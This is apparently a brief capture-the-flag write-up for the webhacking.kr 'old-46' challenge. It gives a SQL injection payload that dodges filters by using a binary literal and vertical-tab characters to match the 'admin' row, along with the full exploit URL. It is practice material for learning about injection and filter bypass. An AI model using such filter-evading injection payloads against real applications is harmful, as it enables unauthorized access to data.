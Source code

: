 ```yaml
---
layout: default
title: old-46
---
```




another sql injection. this time we can't use 0x, so we use 0b.
```5%0bor%0bid%0blike%0b0b0110000101100100011011010110100101101110#```

this is equivalent to `5 or id like 'admin'#`

```
https://webhacking.kr/challenge/web-23/?lv=5%0bor%0bid%0blike%0b0b0110000101100100011011010110100101101110#
```